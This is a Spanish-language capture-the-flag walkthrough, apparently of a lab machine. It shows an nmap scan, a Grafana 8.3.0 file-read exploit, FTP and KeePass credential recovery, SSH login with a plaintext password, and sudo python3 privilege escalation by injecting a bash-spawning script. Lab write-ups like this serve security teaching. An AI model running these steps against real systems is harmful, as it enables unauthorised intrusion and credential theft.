Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.253 -oN escaneo
```


Vemos que tenemos un servidor apache 2.4..58 corriendo en el puerto 80. Y un a aplicación web corriendo en el puerto 3000, así que vamos a ver que esconde esta.


Vemos a ver con la herramienta `wappalyzer` la versíon de esta aplicación web.


Vemos que la versión es `Grafana 8.3.0`, así que vamos a ver si tienen algun exploit.
```
searchsploit grafana 8.3.0
```


Vemos que tiene un exploit, así que vamos a buscarlo. 
```
Link: https://www.exploit-db.com/exploits/50581
```

Una vez lo tenemos descargado lo vamos a usar para leer archivos del servidor.
```
python3 50581.py -H http://172.17.0.2:3000
```


Al no saber que archivo buscar, vamos a hacer un fuzzing de la web para ver si podemos encontrar una pista.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
```


Vemos que nos da un archivo llamado `maintenance.html`, así que vamos a ver que esconde.


Vemos que nos da una ruta de un archivo, así que vamos a buscarlo.
```
/tmp/pass.txt
```


Vemos que nos da como una especie de password, así que nos lo vamos a guardar para más adelante. Ahora vamos a intentar entrar al servicio ftp con las claves por defecto.
```
ftp 172.17.0.2
user: anonymous
password: 
```


Vemos que hay una carpeta llamada mantenimiento, vamos a ver que nos esconde.


Vemos que hay un archivo llamado `database.kdbx`. Esta extension corresponde a un keepass (aplicaciones para guardar contraseñas.), vamos a descargarlo para poderlo ejecutar.
```
get database.kdbx
```


Una vez descargado vamos a abririrlo.
```
keepass2 database.kdbx
```


Vemos que esto nos mustra como una especie de login.


Este nos pide una contraseña, así que vamos a probar con las password que hemos sacado antes. Vemos que nos lo ha aceptado y nos muestra un usuario junto a una contraseña.


Veamos que contraseña corresponde al usuario freddy.


Vamos a probar este usuario y esta password en el servicio ssh.
```
ssh freddy@172.17.0.2
password: t9sH76gpQ82UFeZ3GXZS
```


Vemos que ya estamos dentro, vamos a intentar conseguir los máximos privilegios. Para ello vamos a ver que binarios tinen los permisos de administrador.
```
sudo -l
```


Vemos que tenemos todos los privilegios en el binario python3 y a este se le permite ejecutar un archivo, así que vamos a modificar este.
```
echo "import os; os.system('/bin/bash');">/opt/maintenence.py
```


Ahora vamos a ejecutar el archivo junto al binario con los permisos de administrador para generarnos la shell de administrador.
```
sudo /usr/bin/python3 /opt/maintenence.py
```
